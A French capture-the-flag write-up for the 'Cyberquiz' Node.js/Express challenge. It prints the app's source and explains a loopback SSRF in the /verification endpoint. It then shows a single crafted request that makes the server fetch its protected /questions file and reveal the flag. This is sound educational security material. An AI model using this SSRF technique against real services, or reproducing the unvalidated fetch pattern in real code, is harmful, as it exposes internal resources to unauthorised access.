



# Cyberquiz

# Writeup

Dans ce challenge nous avons un site web disponible qui héberge une application web `Node.js/Express` et celle-ci propose de remplir un `QCM` :




## Code Source

Nous avons accès au code source de cette application `app.js` :

```js
const express = require('express');

const app = express();
const port = 3002;

app.use(express.json());
app.use(express.static("static"));
app.set('view engine', 'ejs');

app.get('/', (req, res) => {
    res.render("index");
});

app.get('/result', (req, res) => {
    res.render("result");
});

app.get("/qcm", async (req, res) => {
    const r = await fetch("http://localhost:3002/questions");
    const q_json = await r.json();

    res.render("qcm", {data: q_json});
});

app.get("/wholematchcom", async (req, res) => {
    if (!req.header("host").startsWith("localhost")) {
        res.status(400);
        res.json({error: "Vous ne pouvez pas accéder aux questions."})
        return;
    }

    const qnumber = req.query.qnumber;
    const answer = req.query.answer;

    const r = await fetch("http://localhost:3002/questions");
    const q_json = await r.json();

    if (q_json[qnumber].verification_type !== 1) {
        res.status(400)
        res.json({error: "Vous ne pouvez pas utiliser cette vérification pour cette question."})
        return;
    }

    res.json({verified: answer === q_json[qnumber].answer, given_answer: answer, expected_answer: q_json[qnumber].answer})
});

app.get("/containmatch", async (req, res) => {
    if (!req.header("host").startsWith("localhost")) {
        res.status(400);
        res.json({error: "You cannot access the questions."})
        return;
    }

    const qnumber = req.query.qnumber;
    const answer = req.query.answer;

    const r = await fetch("http://localhost:3002/questions");
    const q_json = await r.json();

    if (q_json[qnumber].verification_type !== 2) {
        res.status(400)
        res.json({error: "Vous ne pouvez pas utiliser cette vérification pour cette question."})
        return;
    }

    const ans_list = q_json[qnumber].answer.split(", ");
    const verified = ans_list.filter(x => answer.includes(x)).length === ans_list.length;


    res.json({verified: verified, given_answer: answer, expected_answer: q_json[qnumber].answer})
});

app.get("/verification", async (req, res) => {
    const qnumber = req.query.qnumber;
    const answer = req.query.answer;
    const fetch_url = new URL(`http://localhost:3002/${req.query.fetch_endpoint}`);
    fetch_url.searchParams.append("qnumber", qnumber);
    fetch_url.searchParams.append("answer", answer);

    const d_res = await fetch(fetch_url);
    if (!d_res.ok) {
        res.status(400);
        res.json({error: "Vérification invalide."})
        return;
    }
    const data = await d_res.json()

    res.render("verification", {data: data});
});

app.get("/questions", (req, res) => {
    if (!req.header("host").startsWith("localhost")) {
        res.status(400);
        res.json({error: "Vous ne pouvez pas accéder aux questions."})
        return;
    }

    res.sendFile(__dirname + "/questions.json");
});

app.listen(port, () => {
    console.log(`Ecoute sur le port ${port}`)
});
```

Celui-ci contient plusieurs endpoints importants :

```
- /qcm : affiche le QCM en récupérant les questions via /questions

- /questions : renvoie le fichier questions.json

- /wholematchcom et /containmatch : endpoints de vérification de réponses

- /verification : endpoint central qui appelle dynamiquement un autre endpoint pour vérifier une réponse
```

De plus les endpoints `/questions`, `/wholematchcom`, `/containmatch` sont supposés être accessibles uniquement en local via cette condition :

```js
if (!req.header("host").startsWith("localhost")) {
    res.status(400);
    res.json({error: "Vous ne pouvez pas accéder aux questions."})
    return;
}
```

Le problème principal se situe dans le endpoint suivant :

```js
app.get("/verification", async (req, res) => {
    const qnumber = req.query.qnumber;
    const answer = req.query.answer;
    const fetch_url = new URL(`http://localhost:3002/${req.query.fetch_endpoint}`);
    fetch_url.searchParams.append("qnumber", qnumber);
    fetch_url.searchParams.append("answer", answer);

    const d_res = await fetch(fetch_url);
    [...]
});
```

Le paramètre utilisateur `fetch_endpoint` est directement injecté dans l'URL appelée via `fetch()` côté serveur.

Cela signifie que l’utilisateur peut forcer le serveur à effectuer une requête HTTP vers n’importe quel endpoint interne de l’application.

Cette vulnérabilité correspond à une `SSRF` (Server-Side Request Forgery), plus précisément une `loopback SSRF` car l’appel est fait vers `localhost`.

Afin de mieux comprendre cette vulnérabilité voici un exemple similaire :



Dans cet exemple, l’application effectue une requête HTTP côté serveur vers une URL fournie par l’utilisateur. 

Un attaquant peut alors remplacer cette URL par par exemple `http://localhost/admin`.

Ce qui force le serveur à accéder à une ressource interne normalement inaccessible depuis l’extérieur.

Comme la requête provient de la machine locale les protections qui devrait empêcher l’accès à celle-ci ne fonctionne plus.


Pourquoi est-ce également le cas dans notre challenge ?

Même si `/questions` est protégé par une vérification du `header Host`, cette protection est inefficace car la requête vers /questions est effectuée directement par le serveur via :

```js
fetch("http://localhost:3002/questions")
```

## Exploitation

Il suffit d’appeler `/verification` en demandant au serveur d’aller chercher `/questions` :

```html
/verification?fetch_endpoint=questions&qnumber=0&answer=t
```

Le serveur effectue alors la requête suivante en interne :

```
GET http://localhost:3002/questions?qnumber=0&answer=t
```

Le fichier `questions.json` est renvoyé et affiché dans la page :



Il contient le flag :

```
FLAG{V0us_n'êt3s_P4s_Supp0sé_V01r_C3C1}

```
